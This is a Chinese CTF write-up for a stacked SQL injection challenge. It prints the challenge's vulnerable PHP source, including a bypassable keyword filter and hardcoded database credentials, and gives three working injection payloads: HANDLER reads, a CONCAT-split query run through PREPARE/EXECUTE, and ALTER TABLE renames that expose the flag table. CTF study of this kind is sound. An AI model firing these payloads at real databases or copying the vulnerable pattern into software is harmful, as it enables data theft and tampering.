



# 知识点
### handler 代替 select
handler [https://www.cnblogs.com/taoyaostudy/p/13479367.html](https://www.cnblogs.com/taoyaostudy/p/13479367.html)
### 堆叠注入
### 预编译
```sql
set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句
```
### alter 更改表名列名
```plsql
修改表名(将表名user改为users)
alter table user rename to users;

修改列名(将字段名username改为name)
alter table users change uesrname name varchar(30);
```
# 思路
### 源码
```bash
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
<?php
function waf1($inject) {
    preg_match("/select|update|delete|drop|insert|where|\./i",$inject) && die('return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);');
}

function waf2($inject) {
    strstr($inject, "set") && strstr($inject, "prepare") && die('strstr($inject, "set") && strstr($inject, "prepare")');
}

if(isset($_GET['inject'])) {
    $id = $_GET['inject'];
    waf1($id);
    waf2($id);
    $mysqli = new mysqli("127.0.0.1","root","root","supersqli");
    //多条sql语句
    $sql = "select * from `words` where id = '$id';";

    $res = $mysqli->multi_query($sql);

    if ($res){//使用multi_query()执行一条或多条sql语句
      do{
        if ($rs = $mysqli->store_result()){//store_result()方法获取第一条sql语句查询结果
          while ($row = $rs->fetch_row()){
            var_dump($row);
            echo "<br>";
          }
          $rs->Close(); //关闭结果集
          if ($mysqli->more_results()){  //判断是否还有更多结果集
            echo "<hr>";
          }
        }
      }while($mysqli->next_result()); //next_result()方法获取下一结果集，返回bool值
    } else {
      echo "error ".$mysqli->errno." : ".$mysqli->error;
    }
    $mysqli->close();  //关闭数据库连接
}


?>
</pre>

</body>

</html>

```
### 方法一 handler 替换 select
```bash
?inject=';show databases;show tables;show columns from `1919810931114514`;handler `1919810931114514` open; handler `1919810931114514` read first;#
```
## 
### 方法二 预编译
```sql
?inject=-1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#

拆分开来如下：
-1';
Set @sql = CONCAT('se','lect * from `1919810931114514`;');
Prepare stmt from @sql;
EXECUTE stmt;
#

```
因为对"set"和"prepare"进行了过滤，所以对其进行大小写绕过
```php
strstr($inject, "set") && strstr($inject, "prepare")
```

### 方法三 **更改表名列名**
```plsql
1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

拆分开来如下
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);
#
```

